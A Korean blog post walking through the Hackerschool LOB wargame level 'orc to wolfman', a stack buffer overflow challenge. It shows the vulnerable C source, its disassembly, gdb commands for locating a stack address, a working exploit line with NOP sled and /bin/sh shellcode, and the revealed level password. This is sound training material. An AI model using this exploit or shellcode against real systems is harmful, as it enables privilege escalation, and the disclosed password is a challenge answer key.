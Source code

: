 ```yaml
---
date: '2022-10-15'
before : '2022-10-14'
after : '2022-10-16'
title: '시스템 해킹(21) : FTZ LOB LEVEL 5'
categories: ['C-SEC', 'KOR','pwn']
summary: ''
thumbnail: './C_Sec.jpg'
---
```


### 0. 들어가기 전에

이번 문제도 저번 문제와 크게 다르지 않았다.

### 1. Level 5 : Orc -> Wolfman

소스코드를 확인해 보자!

```
#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
        char buffer[40];
        int i;

        if(argc < 2){
                printf("argv error\n");
                exit(0);
        }

        // egghunter
        for(i=0; environ[i]; i++)
                memset(environ[i], 0, strlen(environ[i]));

        if(argv[1][47] != '\xbf')
        {
                printf("stack is still your friend.\n");
                exit(0);
        }
        strcpy(buffer, argv[1]);
        printf("%s\n", buffer);

        // buffer hunter
        memset(buffer, 0, 40);
}
```

어셈블리 코드도 확인해보자!
```
0x8048500 <main>:       push   %ebp
0x8048501 <main+1>:     mov    %ebp,%esp
0x8048503 <main+3>:     sub    %esp,44
0x8048506 <main+6>:     cmp    DWORD PTR [%ebp+8],1
0x804850a <main+10>:    jg     0x8048523 <main+35>
0x804850c <main+12>:    push   0x8048640
0x8048511 <main+17>:    call   0x8048410 <printf>
0x8048516 <main+22>:    add    %esp,4
0x8048519 <main+25>:    push   0
0x804851b <main+27>:    call   0x8048420 <exit>
0x8048520 <main+32>:    add    %esp,4
0x8048523 <main+35>:    nop
0x8048524 <main+36>:    mov    DWORD PTR [%ebp-44],0x0
0x804852b <main+43>:    nop
0x804852c <main+44>:    lea    %esi,[%esi*1]
0x8048530 <main+48>:    mov    %eax,DWORD PTR [%ebp-44]
0x8048533 <main+51>:    lea    %edx,[%eax*4]
0x804853a <main+58>:    mov    %eax,%ds:0x8049760
0x804853f <main+63>:    cmp    DWORD PTR [%eax+%edx],0
0x8048543 <main+67>:    jne    0x8048547 <main+71>
0x8048545 <main+69>:    jmp    0x8048587 <main+135>
0x8048547 <main+71>:    mov    %eax,DWORD PTR [%ebp-44]
```

사실 밑에 buffer hunter라는 녀석이 생긴 것 말고는 달라진 점은 없다. 우리는 어차피 NOP SLED 방식을 활용하므로 buffer hunter로 초기화해도 프로그램 실행 흐름상 버퍼오버플로우를 발생시키는 것에 무리는 없다.


저번 문제와 똑같이 카피코드를 gdb로 디버깅해서 주소를 찾았다.

```
b * main

r `python -c "print 'A'*44+'\xbf\xbf\xbf\xbf'` `python -c "print '\x90'*200+"B"*40'`

//대략적인 주소
0xbffffc3c
```

익스플로잇 :
```
./wolfman `python -c "print 'A'*44 + '\x3c\xfc\xff\xbf'"` `python -c "print '\x90' * 200 + '\x31\xc0\xb0\x31\xcd\x80\x89\xc3\x89\xc1\x31\xc0\xb0\x46\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80'"`
```

비밀번호 : love eyuna

 ---
## Source

- 해커스쿨 FTZ
- Me!

